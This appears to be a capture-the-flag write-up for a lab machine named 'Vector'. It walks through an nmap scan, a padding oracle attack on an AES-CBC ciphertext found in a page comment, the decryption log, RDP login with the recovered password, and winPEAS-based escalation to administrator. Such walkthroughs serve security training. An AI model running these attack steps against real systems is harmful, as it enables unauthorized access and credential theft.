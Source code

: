 # Vector

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.119
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 17:12 +08
Nmap scan report for 192.168.233.119
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2290/tcp open  sonus-logging
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

### Web Enum

Port 80 reveals a basic login page:

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

Port 2290 was also a HTTP port, and it returned something simple:

<figure><img src="../../../.gitbook/assets/image (37) (8).png" alt=""><figcaption></figcaption></figure>

C? When we view the page source, there's also this part here:

```markup
</div>
	<span id="MyLabel">ERROR: missing parameter "<b>c</b>"</span>
	<!--
		AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488
		
		Victor's TODO: Need to add authentication eventually..
	-->
</form>
```

There's a commented ciphertext, and there's also something which takes a parameter. We can try putting this ciphertext as the parameter requested.&#x20;

<figure><img src="../../../.gitbook/assets/image (143) (3).png" alt=""><figcaption></figcaption></figure>

If we remove some characters, then it loads something else.

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

That's literally all of the enumeration that is possible to do.

### Paddling Oracle Attack --> RDP&#x20;

The first thing we can note is the AES mode used, which is CBC. This mode is insecure against a paddle oracle attack. For this application, it appears that when a parameter `c` (short for ciphertext) is submitted, we get a '1' if it has valid padding, else we get a '0'. This explains why the ciphertext, when submitted returns a '1'. This confirms that we need to use this attack to get the ciphertext out.&#x20;

Here's a full video explaining the paddle oracle attack (which I needed to know for my exam lol):

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

Of course, to exploit this we will leverage on automated methods since it involves brute forcing each byte of the ciphertext. Tools like `padbuster` also work if configured properly, but I opted to use the script from this repo since it was easier to configure:

{% embed url="https://github.com/mpgn/Padding-oracle-attack" %}

{% code overflow="wrap" %}
```bash
$ python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.233.119:2290 -u /?c= --error '<span id="MyLabel">0</span>' --method GET
```
{% endcode %}

This would brute force every single character out. Here's the output of it:

```
[+] Search value block :  1 

[+] Found 1 bytes : 04

[+] Found 2 bytes : 0404

[+] Found 3 bytes : 040404

[+] Found 4 bytes : 04040404

[+] Found 5 bytes : 3704040404

[+] Found 6 bytes : 743704040404

[+] Found 7 bytes : 61743704040404

[+] Found 8 bytes : 5661743704040404

[+] Found 9 bytes : 655661743704040404

[+] Found 10 bytes : 6f655661743704040404

[+] Found 11 bytes : 6c6f655661743704040404

[+] Found 12 bytes : 416c6f655661743704040404

[+] Found 13 bytes : 6d416c6f655661743704040404

[+] Found 14 bytes : 726d416c6f655661743704040404

[+] Found 15 bytes : 6f726d416c6f655661743704040404

[+] Found 16 bytes : 576f726d416c6f655661743704040404


[+] Decrypted value (HEX): 576F726D416C6F655661743704040404
[+] Decrypted value (ASCII): WormAloeVat7
```

We get a password! SSH is not open on the machine, but RDP is. `xfreerdp` can be used to connect to it.&#x20;

```
$ xfreerdp /u:victor /p:WormAloeVat7 /v:192.168.233.119
```

<figure><img src="../../../.gitbook/assets/image (49) (6).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### WinPEAS --> Admin Shell

I downloaded and ran `winPEASx64.exe` on the machine, and found this output:

<figure><img src="../../../.gitbook/assets/image (146) (3).png" alt=""><figcaption></figcaption></figure>

It's pretty trivial to get an administrator shell from this.&#x20;

<figure><img src="../../../.gitbook/assets/image (38) (8).png" alt=""><figcaption></figcaption></figure>

Rooted!
